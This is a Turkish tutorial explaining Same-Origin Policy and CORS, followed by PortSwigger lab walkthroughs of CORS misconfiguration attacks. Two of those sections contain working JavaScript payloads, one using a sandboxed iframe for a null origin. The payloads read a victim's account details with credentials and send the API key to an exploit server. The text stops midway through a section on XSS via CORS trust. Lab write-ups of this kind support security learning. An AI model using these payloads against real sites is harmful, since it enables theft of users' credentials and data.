


# SOP ve CORS

Bu yazıda kullanıcıların güvenliklerini sağlamak için web tarayıcıları tarafından geliştirilen <b>SOP (Same-Origin Policy)</b> ve <b>CORS (Cross-Origin Resource Sharing)</b> konusundan bahsedeceğiz.

<figure></figure>

## SOP Nedir?

SOP kısıtlayıcı bir güvenlik mekanizmasıdır. Bir web sitesinin başka bir kaynaktan veri çekmesini engeller. SOP modern tarayıcılar tarafından kullanılan bir güvenlik mekanizmasıdır. Bir web sitesinin sadece kendisiyle aynı kaynaktan gelen verilere erişmesine izin veren bir sistemdir. 
Web sitesi hedef sisteme istek atar, verileri alır ama dönen cevabı okuyamaz.

Bir verinin aynı kaynaktan olup olmadığını kontrol etmek için şu değerlere bakılır:

- Protokol (http, https)

- Alan adı 

- Port

Aynı kaynaktan kelimesini daha iyi açıklamak için örnek vermek istiyorum. Web sitemizin ismi ``http://yavuzkuk.com`` olsun. Bu web sitesinin SOP kuralları çerçevesinde hangi kaynaklardan veri alabileceğine bakacağız.

- ``http://yavuzkuk.com/login`` Başarılı istek
- ``http://yavuzkuk.com``       Başarılı istek
- ``https://yavuzkuk.com``      Protokol ve port farklı
- ``http://admin.yavuzkuk.com`` Farklı domain

Kısaca özetlemek gerekirse SOP, web sitelerinin farklı kaynaklardan veri almasını ve kullanmasını kısıtlayan bir güvenlik mekanizmasıdır. Ancak günümüzde farklı kaynaklar arasında veri alışverişi kaçınılmaz hale geldiğinden, SOP'un sınırlarını esneten ve bu duruma çözüm sağlayan CORS mekanizması devreye girmiştir.

***
## CORS Nedir?

CORS, bir web sitesinin farklı bir domain (kaynak) üzerinden veri almasını veya paylaşmasını sağlayan bir mekanizmadır. Bu, tarayıcıların varsayılan Same-Origin Policy (SOP) kısıtlamasını kontrollü bir şekilde gevşetir.

SOP, bir web sitesinin yalnızca kendi kaynağından veri almasına izin verirken, CORS, bu kısıtlamayı HTTP başlıkları aracılığıyla düzenler.


CORS başlıklarından en önemlisi <b>Access-Control-Allow-Origin</b> başlığıdır. Bu başlık, sunucunun hangi kaynaklardan (origin) gelen isteklerin yanıtlanmasına izin verdiğini belirtir.

*** 
Örnek üzerinden daha iyi anlaşılacaktır. Bir web sitesi (example.com) başka bir kaynaktan (api.example.com) veri almak istiyor ve bunun için bir istek oluşturuyor. 

```
// İstek
GET /data HTTP/1.1
Host: api.example.com
Origin: https://normal-website.com
```

```
// Cevap
HTTP/1.1 200 OK
Content-Type: application/json
Access-Control-Allow-Origin: https://normal-website.com
```

Dönen cevaba baktığımızda izin verilen kaynakları belirtmek için `Access-Control-Allow-Origin` header başlığı kullanılmıştır. 

Bu işlemler sonucunda tarayıcı istekte bulunan origin değeriyle Access-Control-Allow-Origin değerini karşılaştırır. Eğer eşleşirse, tarayıcı isteği kabul eder ve yanıtı kullanır. Eşleşme yoksa yanıt engellenir.

Access-Control-Allow-Origin değerinin alabileceği üç farklı değer vardır. 
- Tek origin
- \* (Wildcard)
- `null`

### Access-Control-Allow-Credentials

Access-Control-Allow-Credentials: true başlığı, bir web sunucusunun, cross-origin (farklı kaynaklı) isteklerde kimlik doğrulama bilgileri (örneğin çerezler veya yetkilendirme başlıkları) ile gelen isteklere izin verdiğini belirtir.

Eğer istemci, isteği çerez veya kimlik doğrulama bilgileri ile gönderiyorsa, ve sunucu Access-Control-Allow-Credentials: true başlığını yanıtına eklemişse, tarayıcı yanıtı kabul eder ve verileri okur.

`Access-Control-Allow-Origin: *` ve `Access-Control-Allow-Credentials: true` değerleri aynı anda kullanılamaz. Kimlik doğrulama vb. işlemler gerçekleşeceği için bütün originlerden gelen istekler kabul edilemez.

## Pre-flight checks

CORS sadece basit veri erişimini kontrol etmekle kalmaz; bazı durumlarda, daha karmaşık güvenlik önlemleri alır. Bu durumlar için pre-flight checks (ön kontrol denetimleri) devreye girer. Pre-flight check, aslında bir isteğin sunucuya gitmeden önce, tarayıcı tarafından yapılan bir ön kontrol adımıdır. Bu adım, özellikle non-standard HTTP metodları (örneğin, PUT, DELETE gibi) ve özel başlıklar kullanıldığında gerçekleşir.


Pre-flight check, bir cross-origin isteği yapılmadan önce, tarayıcı tarafından gönderilen OPTIONS metoduyla yapılan bir ön denetimdir. Bu işlem, tarayıcının, sunucudan istek için gerekli izinleri alıp almadığını kontrol etmesini sağlar. Eğer sunucu, gelen isteğe izin veriyorsa, asıl istek gerçekleşir. Aksi takdirde, istek reddedilir.

*** 

Genel olarak SOP ve CORS konularını anladıysak, bu alanda yanlış yapılandırmalar nedeniyle ortaya çıkan zafiyetlere bir göz atalım.

## [Server-generated ACAO header from client Origin header](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack)

Daha önce `Access-Control-Allow-Origin` başlığından bahsetmiştik. Bu başlık, hangi `Origin` değerlerine sahip web sitelerinin verilere erişebileceğini belirlemek için kullanılır.

Normal şartlarda şöyle bir durum gerçekleşiyordu:

```
# İstek
GET / HTTP/2
Host: example.net
Origin:example.net
```

```
# Cevap
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Access-Control-Allow-Origin: example.net
Content-Length: 11016
```
İstekte gelen `Origin` değeri ile `Access-Control-Allow-Origin` değerleri eşleşmezse tarayıcı verilere ulaşamaz. Normal şartlarda `Access-Control-Allow-Origin` başlık değeri için çeşitli domain adresleri tanımlanır bu sayede veriler gerektiği yerler güvenle ulaştırılmış olunur.

Bazı senaryolarda yanlış konfigürasyon sebebiyle kullanıcı tarafından gönderilen `Origin` başlık değeri otomatik olarka `Access-Control-Allow-Origin` başlık değeri olarak atanır.


<figure></figure>

Cevabımıza baktığımızda girmiş olduğumuz `Origin` header değeri `Access-Control-Allow-Origin` header değeri olarak bize geri döndü. `Access-Control-Allow-Credentials: true` başlığı ise bize kullanıcı bilgilerinin döndüğünü belirtmek için bulunuyor.

Bu soruda istenen şey admin kullanıcısının API keyini bulmamız isteniyor. Admin hesabının API key değerini almak için yapmamız gereken şey kullanıcıyı bir linke tıklamasını sağlamak vb. ve bu bilgileri alıp bize göndermesini sağlamak olacaktır.

Bunun için exploit serverı açıp şu kodu kaydediyoruz. 

```
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','......web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

Bu kodu açıklamak gerekirse kullanıcı bir phishing yöntemiyle bu kodu görüntüler ve tarayıcısında çalıştırırsa az önce gördüğümüz bilgileri kendi bilgisayarına çekmiş olur. Ardından `reqListener` fonksiyonuyla bu verileri /log dizinine göndermiş olur bu sayede admin kullanıcısının API key değerine ulaşmış oluyoruz.

## [Null Origin](https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack)

Bazı web siteleri `Origin` başlık değeri olarak `null` değerleri kabul edebilir. 

`Origin: null` şu durumlarda oluşur:

- Cross-Origin Redirects: Farklı bir domaine yönlendirme sırasında.
- Sandboxed Requests: iframe içinde sandbox kullanıldığında.
- file:// Protokolü: Yerel dosya sistemi üzerinden yapılan isteklerde.
- Data URI: data: protokolüyle yüklenen içeriklerde.
- Tanımsız Kaynaklar: Güvenli bir Origin belirlenemediğinde.

<figure></figure>

`Origin` başlık değerini rastgele bir değer girdiğimizde `Access-Control-Allow-Origin` header değeri karşımıza çıkmıyor ama `Origin` başlık değerini `null` yaptığımızda cevapta karşımıza çıkıyor.

Bizim burada istediğimiz şey kullanıcının bu isteği gerçekleştirmesi ve sonrasında dönen cevabı bize iletmesi olacaktır. Bunun için bir JavaScript kodu yazmamız gerekiyor.

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','....web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='.....exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
```

Bu kodu bir şekilde kullanıcıya ulaştırdığımızda kullanıcının hesap bilgilerinin döndüğü isteği kendi kontrolümüzde olan bir sunucuya göndermiş oluyoruz.

## Exploiting XSS via CORS trust relationships

Bazı durumlarda bir web sitesi `Access-Control-Allow-Origin` değeri olarak kendi subdomain adreslerini kabul eder.

Bu subdomain adreslerinden birinde XSS zafiyeti olduğunu düşünün istediğimiz gibi JavaScript kodu çalıştırabiliyoruz. 

Bizim burada yapacağımız şey subdomain adresinden, ana domaine istek göndermek ve subdomain adresine çektiğimiz API bilgilerini sonrasında kendi kontrolümüzde olan bir yere aktarmak olacaktır.